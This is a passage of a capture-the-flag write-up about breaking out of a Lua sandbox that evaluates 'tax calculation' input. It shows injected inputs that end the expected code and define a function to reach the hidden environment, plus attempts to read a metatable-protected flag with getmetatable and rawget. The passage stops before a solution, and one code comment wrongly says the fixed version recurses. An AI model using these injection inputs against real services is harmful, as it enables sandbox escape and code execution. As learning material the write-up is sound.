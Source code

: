 ```lua
    return result
end

print(hardening(sandbox))
```
this input passed in the entire environment to my own function which I could freely call things such as print. Now the part of the challenge that got me stuck the most ( and somehow not talked about yet): The flag.
```lua
    env.flag = setmetatable({[math.random()] = "brunner{REDACTED}"}, 
                            {__index = function() return tostring(flag) end,
                             __tostring = function() return tostring(flag) end})
```
What the challenge did was change the metatable of the flag. It originally was just a table with a random index set to the flag. But with the meta table, any calls such as flag[0] or print(env.flag) would just print nil. This took the longest for me to get around as I tried everything. Because the CTF provided the challenge files, I loaded it up locally and changed the lua code to return "Flag Name Here" instead of tostring(flag) which equaled "nil". testing my input with 'print(env.flag)' resulted in this:
```lua
Enter your tax calculation:
1 end function ILoveBreaks(env) print(env.flag) end hardening(ILoveBreaks) function test()

Result:
Flag Name Here
```
This would have normally printed nil but due to my change, It didn't. I had access to things such as getmetatable so I tried printing out the value of 'getmetatable(env.flag)' but that yielded no results.
```lua
Enter your tax calculation:
1 return result end function ILoveBreaks(env) for k,v in pairs(getmetatable(env.flag)) do print(k,v) end end hardening(ILoveBreaks) function test(result)

Result:
__index function: 0x00007f127a956ae8
__tostring      function: 0x00007f127a956ac8
```
I know how metatables usually work and if you tried to normally get an index from a table with a metatable, it would cause infinite recursion. The correct way to do it was using rawget.
```lua
local testTable = {
    [1] = "Hello, World!"
}
-- wrong
setmetatable(testTable, {
    __index = function(index) 
        return testTable[index] -- would cause recursion
    end
})
-- right
setmetatable(testTable, {
    __index = function(index) 
        return rawget(testTable, index)-- would cause recursion
    end
})
```
So I tried that with the flag:
```lua
Enter your tax calculation:
1 return result end function ILoveBreaks(env) print(rawget(env.flag,0)) end hardening(ILoveBreaks) function test(result)

Result:
nil
```